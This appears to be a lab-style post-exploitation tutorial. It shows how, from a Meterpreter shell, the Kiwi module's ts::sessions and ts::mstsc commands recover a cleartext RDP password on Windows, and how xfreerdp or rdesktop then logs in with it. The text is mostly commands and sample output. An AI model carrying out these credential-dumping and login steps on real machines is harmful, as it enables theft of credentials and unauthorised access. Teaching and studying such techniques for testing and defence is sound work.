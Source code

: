 ```yaml
---
title: "Dumping RDP Credentials For Logged In User"
date: "2022-02-28"
description: "Dumping RDP Credentials For Logged In User"
coverimage: Dumping_RDP_Credentials_For_Logged_In_User.jpg
tags: 
published: true
posttype: tutorial
---
```

In this tutorial, we will assume you have a Meterpreter Shell On a Windows Box

Migrate current process into `explorer.exe`
```
migrate -N explorer.exe
```

Take a look at the systems running processes. Here we are looking for  `mstsc.exe`. The `mstsc.exe` 

"Creates connections to Remove Desktop Session Host Servers of other remote computers."

Source:
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc

Now we load the Kiwi Module in Meterpreter
```
load kiwi
```

Now we want to look if there are any active sessions running using the kiwi module
```
kiwi_cmd ts::sessions
```

Example output below. Here we can see one active Administrator from the marvel domain. 
```

Session: 0 - Services
  state: Disconnected (4)
  user :  @ 
  curr : 2/28/2022 12:16:21 AM
  lock : no

Session: *1 - Console
  state: Active (0)
  user : Administrator @ MARVEL
  Conn : 2/27/2022 11:08:55 PM
  logon: 2/27/2022 11:09:03 PM
  curr : 2/28/2022 12:16:21 AM
  lock : no

Session: 65536 - RDP-Tcp
  state: Listen (6)
  user :  @ 
  lock : no
```

Attempt to drop clear text credentials. 
```
kiwi_cmd ts::mstsc
```

Example output
```
ServerName                                [wstring] '10.10.10.250'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] '10.10.10.250'
UserName                                  [wstring] 'Administrator'
Domain                                    [wstring] 'MARVEL'
Password                                  [protect] 'Passw0rd!'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] '10.10.10.250'
RDmiUsername                              [wstring] ''
```

Now RDP into the box. 
```
xfreerdp /u:Administrator /p:Passw0rd! /v:10.10.10.250
rdesktop -u Administrator -p Passw0rd! 10.10.10.250
```